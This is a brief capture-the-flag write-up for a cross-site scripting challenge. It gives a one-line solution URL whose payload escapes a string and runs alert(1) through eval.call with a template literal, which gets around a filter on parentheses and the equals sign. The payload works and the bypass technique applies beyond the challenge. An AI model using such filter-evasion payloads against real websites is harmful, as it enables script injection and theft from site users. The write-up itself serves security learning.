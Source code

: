 Description: Can you alert(1) this page (in firefox)?

It was not possible to use [jjencode](utf-8.jp/public/jjencode.html), because parenthesis and equal sign was filtered too.

Solution:
```
http://xss2.sect.ctf.rocks/?xss=stuff%22;eval.call`${'alert\x281\x29)'}`;//
```

References:

[XSS Challenge Wiki](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml)
